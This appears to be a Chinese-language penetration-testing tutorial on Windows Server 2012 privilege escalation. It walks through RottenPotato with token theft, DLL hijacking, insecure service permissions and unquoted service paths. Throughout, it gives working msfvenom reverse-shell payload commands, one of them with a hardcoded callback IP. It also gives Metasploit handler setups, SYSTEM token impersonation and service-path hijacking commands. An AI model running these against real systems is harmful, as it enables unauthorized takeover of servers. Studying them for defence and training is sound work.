



# 思维导图




# 演示案例：

### 案例一 Win2012-烂土豆配合令牌窃取提权-Web 权限

单纯令牌窃取：适用于web权限或本地提权
如配合烂土豆提权：适用于web或数据库等权限

#### 提权原理

##### RottenPotato

RottenPotato（烂土豆）提权的**原理**可以简述如下：

- 1.欺骗 “NT AUTHORITY\SYSTEM”账户通过NTLM认证到我们控制的TCP终端。
- 2.对这个认证过程使用中间人攻击（NTLM重放），为“NT AUTHORITY\SYSTEM”账户本地协商一个安全令牌。这个过程是通过一系列的Windows API调用实现的。
- 3.模仿这个令牌。只有具有“模仿安全令牌权限”的账户才能去模仿别人的令牌。一般大多数的服务型账户（IIS、MSSQL等）有这个权限，大多数用户级的账户没有这个权限。

所以，一般从web拿到的webshell都是IIS服务器权限，是具有这个模仿权限的。测试过程中，我发现使用已经建好的账户（就是上面说的用户级账户）去反弹meterpreter然后再去执行EXP的时候会失败，但使用菜刀（IIS服务器权限）反弹meterpreter就会成功。即**非服务类用户权限无法窃取成功。**

烂土豆比热土豆的优点是：  

- 1.100%可靠    
- 2.（当时）全版本通杀。  
- 3.立即生效，不用像hot potato那样有时候需要等Windows更新才能使用。

总之，我对这个的理解是通过中间人攻击，将COM（NT\\SYSTEM权限）在第二步挑战应答过程中认证的区块改成自己的区块获取SYSTEM令牌，然后利用msf的模仿令牌功能模仿SYSTEM令牌。

烂土豆下载资源

[windows-kernel-exploits/MS16-075 at master · SecWiki/windows-kernel-exploits (github.com)](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-075)

[foxglovesec/RottenPotato: RottenPotato local privilege escalation from service account to SYSTEM (github.com)](https://github.com/foxglovesec/RottenPotato)

#### 烂土豆提权流程

**上传烂土豆---------->执行烂土豆---------->利用窃取模块---------->窃取SYSTEM---------->成功**

##### 环境

##### webshell权限


webshell权限


##### ①上传后门

[使用msfvenom生成木马 ](https://www.cnblogs.com/tianlinlin/p/10171981.html)

生成一个后门，并上传到目标服务器。

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```


##### ②启动监听

```shell
msfconsole
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 5577
exploit
```


##### ③执行后门


确定当前为webshell权限




##### ④单纯令牌窃取

```shell
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```


提权失败，单纯用令牌窃取提权需要有一定的权限，这里的权限太低。

##### ⑤借助烂土豆提权

上传potato.exe


在刚才的test的基础之上，再执行potato.exe

```shell
cd C:\\
execute -cH -f ./potato.exe
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```


### 案例 2：Win2012-DLL 劫持提权应用配合 MSF-Web 权限

#### 原理

Windows程序启动的时候需要DLL库进行支持。如果这些DLL不存在，则可以通过在应用程序要查找的位置放置恶意DLL来提权。通常，Windows应用程序有其预定义好的搜索DLL的路径，它会根据下面的顺序进行搜索：

- 1、应用程序加载的目录
- 2、C:\Windows\System32
- 3、C:\Windows\System
- 4、C:\Windows
- 5、当前工作目录 Current Working Directory，CWD
- 6、在 PATH 环境变量的目录（先系统后用户）

#### 提权过程

**信息收集---------->进程调试---------->制作 dll 并上传---------->替换 dll---------->启动应用后成功**

- 信息收集-----服务器上有的第三方软件

- 进程调试-----程序运行的事=时候调用了那些dll

  

##### 信息收集


发现使用flashfxp第三方软件


##### 进程调试

运行软件，使用火绒剑进行进程分析，查看调用了那些dll文件


查找数字签名文件 以及未知文件（最好是用户目录的文件，有些目录的文件很明显是系统权限）


找到dll文件


##### 生成木马dll，进行替换

```shell
msfvenom -p windows/meterpreter/reverse_tcp
lhost=101.37.169.46 lport=6677 -f dll >/opt/xiaodi.dll
```


##### 启动软件

msf启动监听，服务器运行flashfxp软件程序，成功监听到会话。

```shell
msfconsole
use exploit/multi/handler
set payload  windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport 6677
exploit
```


配合令牌窃取，成功提权

```shell
use incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
```


##### 补充说明

- dll劫持提权需要特定软件应用的控制权限及启用配合，复杂鸡肋
- AlwaysInstallElevated提权默认禁用配置，利用成功机会很少

### 案例 3：Win2012-不安全的服务权限配合 MSF-本地权限

#### 原理

即使正确引用了服务路径，也可能存在其他漏洞。由于管理配置错误，用户可能对服务拥有过多的权限。

例如，可以直接修改它导致重定向执行文件。

#### 提权过程

**检测服务权限配置---------->制作文件并上传---------->更改服务路径指向---------->调用后成功**

##### 检测服务权限配置

[AccessChk - Windows Sysinternals | Microsoft Docs](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk)

执行命令，检测当前用户所在组的服务权限（实战中一般都不是administrators组，这里仅做测试用），列出的都是当前用户可以操作的服务。

```
accesschk.exe -uwcqv "administrators" *
```


##### 制作文件并上传


##### 更改服务路径指向

列出的服务中选择一个服务，更改其服务路径指向。

比如选择NewServiceName服务，它原来的服务路径指向为C:\test.exe


执行命令更改路径指向

```shell
sc config "NewServiceName" binpath="C:\Program.exe"
```


更改成功


监听会话


##### 启动服务，提权成功。


### 案例 4：Win2012-不带引号服务路径配合 MSF-Web,本地权限

#### 原理

当 Windows 服务运行时，会发生以下两种情况之一。如果给出了可执行文件，并且引用了完
整路径，则系统会按字面解释它并执行。


但是，如果服务的二进制路径未包含在引号中，则操作系统将会执行找到的空格分隔的服务路径的第一个实例。

**比如:**

有一个服务a.exe，他的可执行文件的路径是“C:\Program Files\a.exe”，路径被包含在引号中，则系统会正常解释并执行它，但是如果可执行文件的路径是C:\Program  Files\a.exe，未被包含在引号中，则操作系统会执行空格之前的C:\Program，而将空格之后的 Files\a.exe当做参数，导致出错，

如下图


#### 提权过程

**检测引号服务路径---------->利用路径制作文件并上传---------->启用服务或重启---------->调用后成功**


##### 检测引号服务路径

执行命令，检测未被引号包含且还有空格的服务路径。

```shell
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```




##### 利用路径制作文件并上传-

使用msf制作一个后门，命名为Program.exe，上传到目标服务器C盘根目录。


##### 启用服务或重启

启动服务。可以在webshell中或者本地启动服务。但是测试时，webshell中启动不了，所以不带引号服务路径提权方法还是多用于本地提权。

```shell
sc start "服务名"
```

演示为手动


##### 调用后提权成功

msf监听到会话，提权成功。


服务停止或者崩溃，权限也就没了。